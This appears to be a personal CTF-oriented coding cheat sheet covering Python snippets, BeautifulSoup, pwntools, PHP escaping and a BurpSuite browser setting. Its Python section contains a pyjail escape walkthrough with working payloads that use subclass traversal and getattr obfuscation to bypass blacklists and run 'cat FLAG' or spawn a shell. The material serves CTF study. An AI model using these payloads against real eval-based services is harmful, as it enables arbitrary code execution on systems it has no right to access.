 ***********************
Coding Quick Reference
***********************

Python
======

Use python

* [::-1] means 

  Assumming a is a string. The Slice notation in python has the syntax -

 ::

  list[<start>:<stop>:<step>]

 So, when you do a[::-1] , it starts from the end, towards the first, taking each element. So it reverses a. This is applicable for lists/tuples as well.

 Example:

 ::

  >>> a = '1232'
  >>> a[::-1]
  '2321'

* binascii.unhexlify(hexstr) to convert hex to string
* base64.decodestring(str) to decode base64 string
* Convert number to hex

 :: 
    
     hex(15)
     '0xf'

* Convert hex to decimal

 ::

  s = "6a48f82d8e828ce82b82"
  i = int(s, 16)

* Extract numbers from a string: Use a regexp :

 ::

  >>> import re
  >>> re.findall(r'\d+', 'hello 42 I\'m a 32 string 30')
  ['42', '32', '30']

 This would also match 42 from bla42bla. If you only want numbers delimited by word boundaries (space, period, comma), you can use \b :

 ::

  >>> re.findall(r'\b\d+\b', 'he33llo 42 I\'m a 32 string 30')
  ['42', '32', '30']

* Extract string inside single quotes using python script

 Use re.findall:

 ::

  >>> import re
  >>> strs = """text:u'MUC-EC-099_SC-Memory-01_TC-25'
               text:u'MUC-EC-099_SC-Memory-01_TC-26'
            text:u'MUC-EC-099_SC-Memory-01_TC-27'"""

  >>> re.findall(r"'(.*?)'", strs, re.DOTALL)
  ['MUC-EC-099_SC-Memory-01_TC-25',
   'MUC-EC-099_SC-Memory-01_TC-26',
   'MUC-EC-099_SC-Memory-01_TC-27'
  ]

* ASCII value of a character in Python

 function ord() would get the int value of the char. And in case you want to convert back after playing with the number, function chr() does the trick.

 ::

  >>> ord('a')
  97

* Solving Algebraic equations using python: Use sympy
  Use solve() to solve algebraic equations. We suppose all equations are equaled to 0, so solving x**2 == 1 translates into the following code:

 ::

  >>> from sympy.solvers import solve
  >>> from sympy import Symbol
  >>> x = Symbol('x')
  >>> solve(x**2 - 1, x)
  [-1, 1]

  
 The first argument for solve() is an equation (equaled to zero) and the second argument is the symbol that we want to solve the equation for.

* AVL Tree Implementation in Python : `python-avl-tree <https://github.com/pgrafov/python-avl-tree>`_

* Convert all strings in a list to int
  So if we have:

 ::

  results = ['1', '2', '3']

 How do I make it:

 ::

  results = [1, 2, 3]

 
  Use the map function(in py2):
 
 ::
 
  results = map(int, results)
 
 In py3:

 ::

  results = list(map(int, results))

* Read the RGB value of a given pixel in Python?

 ::

  from PIL import Image
  im = Image.open("dead_parrot.jpg") #Can be many different formats.
  pix = im.load()
  print im.size #Get the width and hight of the image for iterating over
  print pix[x,y] #Get the RGBA Value of the a pixel of an image
  pix[x,y] = value # Set the RGBA Value of the image (tuple)
  im.save("alive_parrot.png") # Save the modified pixels as png

* Convert Text to Binary and back?
  
  ::

    >>> import binascii
    >>> bin(int(binascii.hexlify('hello'), 16))
    '0b110100001100101011011000110110001101111'

 In reverse:

 ::

    >>> n = int('0b110100001100101011011000110110001101111', 2)
    >>> binascii.unhexlify('%x' % n)
    'hello'

* function ord() would get the int value of the char. And in case you want to convert back after playing with the number, function chr() does the trick.

 ::

    >>> ord('a')
    97
    >>> chr(97)
    'a'
    >>> chr(ord('a') + 3)
    'd'


* String formating of numbers in python (Print 0000 - 9999)

 ::

  >>> for i in xrange(10):
  ...     '{0:04}'.format(i)
  ... 
  '0000'
  '0001'

* Insert a newline character every 64 characters using Python

 ::

  s = "0123456789"*100 # test string
  import re
  print re.sub("(.{64})", "\\1\n", s, 0, re.DOTALL)

* Having a function where you can provide parameter in online webform? Like there is a function definition like def fun() where we can pass two arguments, that are interpreted.

  ::

   def fun(User_Input): 

       c = a + b
           return c


 Try

 ::

  1.   a,b=dir()[0]
  2.   a,b=print("Hello")
  3.   a,b=print(exec("import os"),eval("os.listdir('.')"))

  Cat a file?

  1.   a, b, c = __import__('os').system('cat FLAG')
  2.   a,b=print(open("FLAG", "r").read())

 The above should work fine till there are no blacklist wordlist provided.

 Let's craft a payload to bypass the blacklist.

 Create a string class (also works with list or dict)

 ::

  >>> ''.__class__
  <class 'str'>
 
 Now we need the parent class, there is two ways:
 
 ::

  >>> ''.__class__.__base__
  <class 'object'>
  >>> ''.__class__.__mro__
  (<class 'str'>, <class 'object'>)
  >>> ''.__class__.__mro__[1]
  <class 'object'>

 Now we have the object class. So we can access to all the child classes:

 ::

   >>> ''.__class__.__base__.__subclasses__()
   [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'moduledef'>, <class 'module'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class 'zipimport.zipimporter'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.Loader'>, <class 'importlib.abc.ResourceReader'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'rlcompleter.Completer'>]
 
 Let's find a more suitable way to access the subclasses by index:

 ::

  >>> for i,val in enumerate(''.__class__.__mro__[1].__subclasses__()):
  ...   print(i,': ',val)

 Using __init__ to initialize the class and __globals__ to access the global namespace of the module in which the function was defined.

 `pyjail WU <https://github.com/kimtruth/GoN-Write-up>`_ was able to call `sys` from `codecs.StreamReaderWriter` class.

 ::

  ''.__class__.__mro__[1].__subclasses__()[104]
  <class 'codecs.StreamReaderWriter'>`

 So from this namespace we are able to call sys.
 
 ::

  >>> ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"]
  <module 'sys' (built-in)>
 
 Then it's easy to import os:
 
 ::

  >>> ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"].modules["os"]
  <module 'os' from '/usr/lib/python3.7/os.py'>

 And finally using system method to launch a system command and read the flag:
 
 ::

  ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"].modules["os"].system("cat FLAG")


 However if "." and "__" are also blacklisted then we can use

 * Without . to call method, we can use getattr instead
 * Without __import__, we can use catch_warnings in {}.__class__.__base__.__subclasses__()

 ::

  {}.__class__.__base__.__subclasses__()[[i.__name__ == "catch_warnings" for i in {}.__class__.__base__.__subclasses__()].index(True)] this will give me catch_warnings
  {}.__class__.__base__.__subclasses__()[[i.__name__ == "catch_warnings" for i in {}.__class__.__base__.__subclasses__()].index(True)]()._module.__builtins__["__import__"]("os").system("sh") this will give me shell
 
 Then we just need to change . to getattr, and _ to dir(0)[0][0]
 Final payload :

 ::

  getattr(getattr(getattr(getattr(getattr(getattr((), dir(0)[0][0]*2+"class"+dir(0)[0][0]*2), dir(0)[0][0]*2+"base"+dir(0)[0][0]*2), dir(0)[0][0]*2+"subcl"+"asses"+dir(0)[0][0]*2)()[getattr([getattr(i, dir(0)[0][0]*2+"name"+dir(0)[0][0]*2) == "catch"+dir(0)[0][0]+"warnings" for i in getattr(getattr(getattr((), dir(0)[0][0]*2+"class"+dir(0)[0][0]*2), dir(0)[0][0]*2+"base"+dir(0)[0][0]*2), dir(0)[0][0]*2+"subcl"+"asses"+dir(0)[0][0]*2)()], "index")(True)](), dir(0)[0][0]+"module"), dir(0)[0][0]*2+"builtins"+dir(0)[0][0]*2)[dir(0)[0][0]*2+"imp"+"ort"+dir(0)[0][0]*2]("o"+"s"), "sy"+"stem")("sh")

BeautifulSoup
-------------


A tag may have any number of attributes. The tag <b id="boldest"> has an attribute “id” whose value is “boldest”. You can access a tag’s attributes by treating the tag like a dictionary:

tag['id']
# u'boldest'

You can access that dictionary directly as .attrs:

tag.attrs
# {u'id': 'boldest'}


and read the tag value using

print(tag.get('id'))

If you have something like

::

 <form id="form_product_page" name="form_1362737440" action="/download/791055/164084/" method="get">
 <input id="nojssubmit" type="submit" value="Download" />
 </form>

and want action value we can

::

 action = soup.find('form', id='form_product_page').get('action')


PwnTools
--------

Importing

::

 >>> from pwn import *

Making Connections

::

 conn = remote('ftp.ubuntu.com',21)

Receiving Lines

::

 conn.recvline() 
 conn.recvuntil(' ', drop=True)

Sending Lines

::

 conn.send('USER anonymous\r\n')
 conn.sendline('Hello')

Pwn Templates
^^^^^^^^^^^^^

`pwn template <https://github.com/Gallopsled/pwntools/pull/909>`_ command can be used for generating templates. 


ctypes 
------

A foreign function library for Python. It provides C compatible data types, and allows calling functions in DLLs or shared libraries. It can be used to wrap these libraries in pure Python. ctypes exports the cdll, and on Windows windll and oledll objects, for loading dynamic link libraries.

PHP
===

* mysqli_real_escape_string — Escapes special characters in a string for use in an SQL statement, taking into account the current charset of the connection.
* filter_var — Filters a variable with a specified filter. There are multiple types of `filter <http://php.net/manual/en/filter.filters.php>`_ such as Validate, Sanitize etc.

BurpSuite
=========

(1) In a new tab, type or paste about:config in the address bar and press Enter/Return. Click the button promising to be careful.

(2) In the search box above the list, type or paste captiv and pause while the list is filtered

(3) Double-click the network.captive-portal-service.enabled preference to switch the value from true to false
If you are in a managed environment using an autoconfig file, for example, you could use this to switch the default: 
user_pref("network.captive-portal-service.enabled", false);

